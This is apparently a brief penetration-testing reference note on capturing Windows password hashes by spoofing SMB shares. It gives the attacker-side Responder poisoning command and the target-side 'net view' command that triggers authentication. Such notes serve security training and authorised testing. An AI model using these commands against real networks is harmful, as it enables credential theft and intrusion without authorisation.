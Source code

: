```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - sniffing-and-spoofing
  - weaponization
  - client-side-attacks
  - scenarios
  - network-protocols
  - smb
---
```

# 01 - Capture Hashes via Spoof SMB Shares

## 1.1 - Attacker

```
$ sudo responder -I <interface> -rdwv
```

## 1.2 - Target

```
C:\> net.exe view \\snare
```

---
## References

### Backlinks

- [[SMB Names Examples]]